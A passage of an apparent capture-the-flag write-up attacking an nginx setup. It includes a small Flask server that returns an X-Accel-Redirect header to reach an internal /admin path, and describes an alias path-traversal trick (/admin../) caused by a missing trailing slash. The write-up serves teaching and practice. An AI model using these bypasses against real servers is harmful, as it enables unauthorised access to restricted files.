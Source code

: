 ```

        access_log /dev/stdout;
        error_log /dev/stdout;
    }

}

```

- `/admin` is `internal;`
	- only allow internal requests
- `/uberadmin` only allow IP `0.13.3.7`

- How to bypass these restrictions?
	- `X-Accel-Redirect` header can bypass the `internal` restriction.
	- https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/
	- > X-accel allows for internal redirection to a location determined by a header returned from a backend.
- Run a web server and send header with `proxy_pass` to bypass `/admin` restriction:


```python=
#!/usr/bin/env python3
from flask import Flask, current_app, request, make_response

app = Flask(__name__)

@app.route('/')
def index():
    response = make_response()
    response.headers['X-Accel-Redirect'] = '/admin/flag.txt'
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, threaded=True)

```

- the content of `/admin/flag.txt`:
	- `hmmm, should admins really get flags? seems like an uberadmin thing to me`
	- so we need to bypass `/uberadmin`

- There is a **Path Traversal vulnerability** in the Nginx config:
	- `/admin` alias to `/var/www/html/admin/`
	- No trailing slash on `/admin`
	- We can visit parent directory by `/admin../`


```
location /admin {
    internal;
    autoindex on;
    alias /var/www/html/admin/;
}

```
